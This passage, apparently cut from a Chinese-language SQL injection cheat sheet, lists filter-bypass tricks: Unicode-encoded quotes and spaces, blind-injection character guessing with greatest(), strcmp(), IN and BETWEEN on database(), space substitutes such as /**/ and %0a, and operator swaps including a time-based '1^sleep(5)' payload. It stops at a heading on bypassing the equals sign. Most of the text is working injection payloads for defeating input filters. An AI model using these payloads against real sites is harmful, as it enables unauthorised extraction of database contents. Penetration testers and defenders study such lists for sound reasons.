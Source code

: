 ```bash
单引号=> %u0037 %u02b9
空格=> %u0020 %uff00
左括号=> %u0028 %uff08
右括号=> %u0029 %uff09
```

## 6.<>大于小于号绕过

在sql盲注中，一般使用大小于号来判断ascii码值的大小来达到爆破的效果。
greatest(n1, n2, n3…):返回n中的最大值 或least(n1,n2,n3…):返回n中的最小值

```bash
select * from cms_users where userid=1 and greatest(ascii(substr(database(),1,1)),1)=99;
```

strcmp(str1,str2):
若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1

```bash
select * from cms_users where userid=1 and strcmp(ascii(substr(database(),0,1)),99);
```

in关键字

```bash
select * from cms_users where userid=1 and substr(database(),1,1) in ('c');
```

between a and b:范围在a-b之间（不包含b）

```bash
select * from cms_users where userid=1 and substr(database(),1,1) between 'a' and 'd';
```

## 7.空格绕过

一般绕过空格过滤的方法有以下几种方法来取代空格

```bash
/**/
()
回车(url编码中的%0a)
`(tab键上面的按钮)
tab
两个空格
```

8.对or and xor not 绕过

```bash
or = ||
and = &&
xor = | 或者 ^ # 异或,例如Select * from cms_users where userid=1^sleep(5);
not = !
```

## 9.对等号=绕过

